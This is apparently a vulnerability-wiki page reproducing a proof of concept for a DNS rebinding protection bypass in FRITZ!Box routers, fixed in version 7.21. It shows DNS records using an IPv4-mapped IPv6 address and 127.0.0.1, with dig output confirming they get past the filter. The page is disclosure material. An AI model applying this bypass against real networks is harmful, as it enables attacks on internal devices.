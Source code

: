 <languages /> <translate>

已修復版本
----------

</translate> \>= 7.21

POC
---

    Supposing the following resource records (RR) are configured for different
    subdomains of example.com:

    ------------------------------------------------------------------------
    private.example.com        1  IN  A     192.168.178.20
    local.example.com          1  IN  A     127.0.0.1
    privateipv6.example.com.   1  IN  AAAA  ::ffff:192.168.178.20
    ------------------------------------------------------------------------

    A DNS request to the FRITZ!Box router for the subdomain
    private.example.com returns an empty answer, as expected:

    ------------------------------------------------------------------------
    $ dig private.example.com @192.168.178.1
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> private.example.com @192.168.178.1
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 58984
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 0

    ;; QUESTION SECTION:
    ;private.example.com.   IN  A
    ------------------------------------------------------------------------

    DNS requests for the subdomains privateipv6.example.com and
    local.example.com return the configured resource records successfully,
    effectively bypassing the DNS rebinding protection:

    ------------------------------------------------------------------------
    $ dig privateipv6.example.com @192.168.178.1 AAAA
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> @192.168.178.1 privateipv6.example.com AAAA
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 6510
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;privateipv6.example.com.   IN  AAAA

    ;; ANSWER SECTION:
    privateipv6.example.com. 1  IN  AAAA    ::ffff:192.168.178.20


    $ dig local.example.com @192.168.178.1
    ; <<>> DiG 9.11.5-P4-5.1+deb10u1-Debian <<>> local.example.com @192.168.178.1
    ;; global options: +cmd
    ;; Got answer:
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 28549
    ;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 1, ADDITIONAL: 3

    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4096
    ;; QUESTION SECTION:
    ;local.example.com. IN  A

    ;; ANSWER SECTION:
    local.example.com. 1    IN  A   127.0.0.1
    ------------------------------------------------------------------------